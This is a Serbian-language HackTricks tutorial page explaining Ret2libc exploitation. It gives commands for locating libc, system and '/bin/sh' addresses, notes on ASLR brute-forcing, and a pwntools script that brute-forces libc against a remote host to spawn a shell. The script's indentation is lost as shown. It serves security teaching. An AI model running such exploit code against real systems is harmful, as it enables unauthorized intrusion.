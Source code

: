 # Ret2lib

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Osnovne informacije**

Suština **Ret2Libc** je preusmeravanje toka izvršavanja ranjivog programa na funkciju unutar deljene biblioteke (npr., **system**, **execve**, **strcpy**) umesto izvršavanja shellcode-a koji je obezbedio napadač na steku. Napadač kreira payload koji menja adresu povratka na steku da pokazuje na željenu funkciju biblioteke, dok takođe obezbeđuje da su svi potrebni argumenti ispravno postavljeni prema konvenciji pozivanja.

### **Primer koraka (pojednostavljeno)**

* Dobiti adresu funkcije koju treba pozvati (npr. system) i komandu koju treba pozvati (npr. /bin/sh)
* Generisati ROP lanac da prosledi prvi argument koji pokazuje na string komande i tok izvršavanja funkciji

## Pronalaženje adresa

* Pretpostavljajući da je `libc` koji se koristi onaj sa trenutnog računara, možete pronaći gde će biti učitan u memoriji sa:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ako želite da proverite da li ASLR menja adresu libc, možete uraditi:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Poznavanje korišćene libc takođe omogućava pronalaženje ofseta do `system` funkcije sa:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Poznavanjem korišćene libc, takođe je moguće pronaći offset do stringa `/bin/sh` funkcije sa:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Koristeći gdb-peda / GEF

Znajući korišćenu libc, takođe je moguće koristiti Peda ili GEF da dobijete adresu funkcije **system**, funkcije **exit** i stringa **`/bin/sh`** :
```
p system
p exit
find "/bin/sh"
```
### Korišćenje /proc/\<PID>/maps

Ako proces kreira **decu** svaki put kada razgovarate s njim (mrežni server), pokušajte da **pročitate** tu datoteku (verovatno će vam biti potrebna root privilegija).

Ovde možete pronaći **tačno gde je libc učitan** unutar procesa i **gde će biti učitan** za svaku decu procesa.

![](<../../../../.gitbook/assets/image (95).png>)

U ovom slučaju je učitan u **0xb75dc000** (Ovo će biti osnovna adresa libc)

## Nepoznata libc

Može biti moguće da **ne znate koju libc binarni fajl učitava** (jer se možda nalazi na serveru kojem nemate pristup). U tom slučaju možete iskoristiti ranjivost da **procurite neke adrese i saznate koja libc** biblioteka se koristi:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

I možete pronaći pwntools šablon za ovo u:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Obilaženje ASLR na 32 bita

Ovi napadi brute-force su **samo korisni za 32bitne sisteme**.

* Ako je exploit lokalni, možete pokušati da brute-force-ujete osnovnu adresu libc (korisno za 32bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati da **burte-forcujete adresu `libc` funkcije `usleep`**, prosledjujući kao argument 10 (na primer). Ako u nekom trenutku **serveru treba dodatnih 10s da odgovori**, pronašli ste adresu ove funkcije.

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Code Example

U ovom primeru ASLR brute-force je integrisan u kod, a ranjivi binarni fajl se nalazi na udaljenom serveru:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib Code Example

Check the example from:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (ili puts)

Ovo omogućava **curenje informacija iz procesa** pozivajući `printf`/`puts` sa nekim specifičnim podacima postavljenim kao argument.

## Ret2printf

Ovo u suštini znači zloupotrebu **Ret2lib da se transformiše u ranjivost formata stringova `printf`** koristeći `ret2lib` da pozove printf sa vrednostima za eksploataciju (zvuči beskorisno, ali je moguće):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Ostali primeri i reference

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, uz curenje adrese funkcije u libc, koristeći jedan gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bita, ASLR omogućeno, ali bez PIE, prvi korak je popuniti overflow do bajta 0x00 canary da bi se zatim pozvao puts i curio. Sa canary se kreira ROP gadget da pozove puts da curi adresu puts iz GOT-a i ROP gadget da pozove `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bita, ASLR omogućeno, bez canary, stack overflow u main iz dečije funkcije. ROP gadget da pozove puts da curi adresu puts iz GOT-a i zatim pozove jedan gadget.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bita, bez pie, bez canary, bez relro, nx. Koristi write funkciju da curi adresu write (libc) i poziva jedan gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

